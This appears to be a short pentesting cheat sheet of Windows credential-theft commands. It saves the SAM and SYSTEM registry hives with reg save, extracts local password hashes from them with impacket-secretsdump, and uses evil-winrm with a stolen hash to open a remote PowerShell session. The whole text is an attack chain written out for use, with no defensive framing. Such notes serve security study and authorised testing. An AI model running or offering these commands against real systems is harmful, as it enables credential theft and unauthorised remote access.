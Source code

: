 # Interesting Commands

Save SAM file:

```powershell
reg save HKLM\sam ./sam.save
```

Save SYSTEM file:

```powershell
reg save HKLM\system ./system.save
```

Use impacket to get password hashes:

```bash
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

Evilwin-rm to get PowerShell access:

```bash
evil-winrm -i [IP] -u [username] -H [hash]
```

